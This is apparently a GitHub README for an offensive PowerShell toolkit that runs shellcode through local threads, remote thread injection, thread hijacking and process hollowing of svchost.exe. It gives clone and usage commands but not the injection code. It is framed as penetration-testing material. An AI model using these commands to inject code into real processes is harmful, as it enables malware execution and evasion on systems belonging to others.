 # **PowerShell-Shellcode-Exec**

PowerShell is an excellent tool built into Windows. Because of this, we can leverage it against any standard computer with basic knowledge of the .NET framework. Shellcode execution may be a vital aspect to penetration testing and must be accomplished.

There are many ways to get shellcode executed on a device, but I will be going over 2 execution methods and 4 types of shellcode execution.

### **Setup**

```powershell
git clone https://github.com/SilentisVox/PowerShellcode-Shellcode-Exec
cd PowerShellcode-Shellcode-Exec
```

### **Usage**

```powershell
cd "./Standard Windows API"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```

```powershell
cd "./Function Resolutions"

. "./Local Thread/Invoke-ShellcodeViaLocalThread.ps1"
. "./Remote Thread/Invoke-ShellcodeViaRemoteThread.ps1"
. "./Thread Hijack/Invoke-ShellcodeViaThreadHijack.ps1"
. "./Process Hollow/Invoke-ShellcodeViaProcessHollow.ps1"

Invoke-ShellcodeViaLocalThread -Shellcode $Shellcode -Verbose
Invoke-ShellcodeViaRemoteThread -Shellcode $Shellcode -TargetPID 1234 -Verbose
Invoke-ShellcodeViaThreadHijack -Shellcode $Shellcode -TargetPID 1234 -TargetTID 5678 -Verbose
Invoke-ShellcodeViaProcessHollow -Shellcode $Shellcode -ProcessPath "C:\Windows\System32\svchost.exe" -Verbose
```